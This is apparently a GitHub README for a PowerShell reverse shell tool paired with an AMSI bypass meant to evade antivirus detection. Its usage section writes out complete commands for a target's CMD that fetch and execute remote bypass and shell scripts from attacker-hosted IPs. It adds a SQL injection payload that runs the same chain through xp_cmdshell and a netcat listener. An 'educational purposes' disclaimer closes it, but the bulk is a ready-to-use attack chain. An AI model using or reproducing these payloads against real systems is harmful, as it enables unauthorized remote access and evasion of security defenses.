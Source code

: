 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Why Linkin Park?](#why-linkin-park)
6. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload

#### **From the Target Machine (CMD)**:
On the target machine, run the following command in CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command 'Invoke-Expression (Invoke-WebRequest -Uri "http://192.168.1.169/amsi.txt" -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.1.169/shell.ps1" -UseBasicParsing).Content); Invoke-Expression $scriptContent'


or this one:

powershell -nop -ep Bypass -c "iex (iwr 'http://192.168.1.94/amsi.txt' -UseBasicParsing).Content; $s=[Text.Encoding]::UTF8.GetString((iwr 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); iex $s"

```

Replace `192.168.1.94` with the IP address of your HTTP server.

---

#### **From an SQL Injection (Burp Suite)**:
If you have an SQL Injection vulnerability where you can execute commands using `xp_cmdshell`, run the following command from Burp Suite:

```sql
parameter=test'; EXEC xp_cmdshell 'powershell IEX (Invoke-WebRequest -Uri \"http://192.168.1.94/amsi.txt\" -UseBasicParsing).RawContent ; $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri \"http://192.168.1.94/shell.ps1\" -UseBasicParsing).Content); Invoke-Expression $scriptContent';--
```

**Steps**:
1. Replace `http://192.168.1.95` with the IP address of your HTTP server.
2. Convert the command to URL encoding using **Ctrl + U** in Burp Suite.
3. Send the request to execute the payload.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Why Linkin Park?

The variables in the `shell.ps1` script are named after members of the band **Linkin Park** as a tribute to their music and legacy. Here's the breakdown:
- `$chester`: Chester Bennington, the iconic lead vocalist.
- `$mike`: Mike Shinoda, the band's co-lead vocalist, rapper, and multi-instrumentalist.
- `$shinoda`: Another nod to Mike Shinoda.
- `$bennington`: Chester Bennington's last name.
- `$hahn`: Joe Hahn, the band's DJ and creative director.
- `$phoenix`: Phoenix Farrell, the bassist.
- `$bourdon`: Rob Bourdon, the drummer.

This naming convention adds a personal touch to the script while maintaining its functionality.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
